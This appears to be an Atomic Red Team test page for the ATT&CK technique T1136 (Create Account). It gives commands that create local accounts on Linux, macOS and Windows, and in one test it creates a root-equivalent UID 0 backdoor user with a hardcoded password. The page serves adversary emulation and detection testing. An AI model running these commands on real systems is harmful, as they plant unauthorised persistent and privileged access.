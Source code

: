 # T1136 - Create Account
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1136)
<blockquote>Adversaries with a sufficient level of access may create a local system or domain account. Such accounts may be used for persistence that do not require persistent remote access tools to be deployed on the system.

The <code>net user</code> commands can be used to create a local or domain account.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a user account on a Linux system](#atomic-test-1---create-a-user-account-on-a-linux-system)

- [Atomic Test #2 - Create a user account on a MacOS system](#atomic-test-2---create-a-user-account-on-a-macos-system)

- [Atomic Test #3 - Create a new user in a command prompt](#atomic-test-3---create-a-new-user-in-a-command-prompt)

- [Atomic Test #4 - Create a new user in PowerShell](#atomic-test-4---create-a-new-user-in-powershell)

- [Atomic Test #5 - Create a new user in Linux with `root` UID and GID.](#atomic-test-5---create-a-new-user-in-linux-with-root-uid-and-gid)


<br/>

## Atomic Test #1 - Create a user account on a Linux system
Create a user via useradd

**Supported Platforms:** Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| comment | Comment to record when creating the user | String | Evil Account|

#### Run it with `bash`! ```
useradd -M -N -r -s /bin/bash -c "#{comment}" #{username}
```



<br/>
<br/>

## Atomic Test #2 - Create a user account on a MacOS system
Creates a user on a MacOS system with dscl

**Supported Platforms:** macOS


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| realname | 'realname' to record when creating the user | String | Evil Account|

#### Run it with `bash`! ```
dscl . -create /Users/#{username}
dscl . -create /Users/#{username} UserShell /bin/bash
dscl . -create /Users/#{username} RealName "#{realname}"
dscl . -create /Users/#{username} UniqueID "1010"
dscl . -create /Users/#{username} PrimaryGroupID 80
dscl . -create /Users/#{username} NFSHomeDirectory /Users/#{username}
```



<br/>
<br/>

## Atomic Test #3 - Create a new user in a command prompt
Creates a new user in a command prompt

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | Evil Account|

#### Run it with `command_prompt`! ```
net user /add #{username}
```



<br/>
<br/>

## Atomic Test #4 - Create a new user in PowerShell
Creates a new user in PowerShell

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | Evil Account|

#### Run it with `powershell`! ```
New-LocalUser -Name #{username} -NoPassword
net user /add #{username}
```



<br/>
<br/>

## Atomic Test #5 - Create a new user in Linux with `root` UID and GID.
Creates a new user in Linux and adds the user to the `root` group. This technique was used by adversaries during the Butter attack campaign.

**Supported Platforms:** Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | butter|
| password | Password of the user to create | String | BetterWithButter|

#### Run it with `bash`! ```
useradd -o -u 0 -g 0 -M -d /root -s /bin/bash #{username}
echo "#{password}" | passwd --stdin #{username}
```



<br/>
